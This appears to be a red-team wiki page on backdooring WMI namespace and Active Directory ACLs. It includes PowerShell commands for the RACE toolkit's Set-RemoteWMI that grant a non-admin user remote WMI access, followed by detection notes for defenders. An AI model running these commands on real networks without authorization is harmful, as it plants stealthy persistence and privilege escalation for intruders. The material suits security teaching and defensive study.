

<Callout type="info" title="Concept Overview">
Access Control Lists (ACLs) dictate who can access, modify, or execute specific securable objects. Attackers can modify these ACLs to grant non-admin users elevated privileges over WMI namespaces or Active Directory objects, establishing a stealthy backdoor for persistence and lateral movement without changing group memberships.

**MITRE ATT&CK Mapping:**
* [T1222 - File and Directory Permissions Modification](https://attack.mitre.org/techniques/T1222/)
* [T1098 - Account Manipulation](https://attack.mitre.org/techniques/T1098/)
</Callout>




---

## 1. ACL in WMI (via DCOM)

<Callout type="info" title="WMI Namespace ACLs">
Windows Management Instrumentation (WMI) uses Distributed Component Object Model (DCOM) for remote management. ACLs in this context control who has access to WMI namespaces (like `Root\CIMv2`) and their objects.

* **How it works:** Permissions are configured at the namespace level. They determine who can query WMI, execute methods, or modify objects remotely.
* **Management Tools:** `WMImgmt.msc` (WMI Control), PowerShell (`Set-WmiNamespaceSecurity`).
</Callout>


---

## 2. ACL in Active Directory (Object-Level)

<Callout type="tip" title="Active Directory ACLs">
In Active Directory, ACLs are applied at the object level. Every object (users, groups, OUs) has an associated Security Descriptor that defines permissions.

* **How it works:** The ACL determines what actions (Read, Write, Delete, Reset Password) are allowed on that specific object and by whom.
* **Management Tools:** ADUC (Security tab), PowerShell (`Get-ACL`, `Set-ACL`), `LDP.exe`.
</Callout>


---

## Key Differences: WMI vs. Active Directory ACLs

| Aspect | WMI (DCOM) ACLs | Active Directory ACLs |
| :--- | :--- | :--- |
| **Scope** | Manages access to WMI namespaces and objects. | Manages access to AD objects (Users, Groups, OUs). |
| **Storage** | ACLs are stored within the WMI namespace repository. | ACLs are part of the AD object's metadata (Security Descriptor). |
| **Protocol** | Uses DCOM (TCP 135 + dynamic ports) for remote access. | Uses LDAP (TCP 389/636) for access. |
| **Management Tools** | WMI Control (`WMImgmt.msc`), PowerShell. | ADUC, PowerShell, `LDP.exe`. |

---

## Execution using RACE Toolkit

<Callout type="danger" title="Modifying WMI ACLs with `Set-RemoteWMI`">
**RACE (Rapid Attack & Complex Exploitation)** is a PowerShell toolkit designed to automate ACL modifications and lateral movement. 
<Resource title="samratashok/RACE" href="https://github.com/samratashok/RACE" icon="github" />
</Callout>

<Steps>
  <Step title="Step 1: Import Module">
    ```powershell
    ipmo RACE.ps1
    ```
  </Step>
  <Step title="Step 2: Execute Attack">
    <Tabs>
      <Tab title="On Local Machine">
        *Grants `normaluser` remote WMI access on the current machine.*
        ```powershell
        Set-RemoteWMI -SamAccountName normaluser -verbose
        ```
      </Tab>
      <Tab title="On Remote Machine">
        *Grants `domain\normaluser` access to the `root\cimv2` namespace on a remote machine. (Requires Local Admin on Target)*
        ```powershell
        Set-RemoteWMI -SamAccountName domain\normaluser -Namespace 'root\cimv2' -verbose
        ```
      </Tab>
      <Tab title="Remote w/ Credentials">
        *Useful when you have credentials for a local admin of the target machine but are running as a different user.*
        ```powershell
        Set-RemoteWMI -SamAccountName normaluser -ComputerName mal-analysis -Credential administrator -namespace 'root\cimv2' -verbose
        ```
      </Tab>
      <Tab title="Cleanup / Remove">
        ```powershell
        Set-RemoteWMI -SamAccountName normaluser -ComputerName mal-analysis -Credential administrator -namespace 'root\cimv2' -Remove -verbose
        ```
      </Tab>
    </Tabs>
  </Step>
</Steps>

---

## OPSEC & Detection

<Callout type="warning" title="Operational Security (OPSEC) & Detection">
* **WMI ACL Changes:** Modifying WMI namespace ACLs is a rare administrative event. Defenders can monitor for changes to the `__SystemSecurity` class or the registry keys associated with WMI namespace permissions (`HKLM\SOFTWARE\Microsoft\WBEM\CIMOM`).
* **AD ACL Changes:** Modifying AD object ACLs generates **Event ID 5136** (A directory service object was modified) on the Domain Controller. Defenders should alert on any changes to the `nTSecurityDescriptor` attribute, especially on critical objects like `AdminSDHolder` or Domain Root.
</Callout>
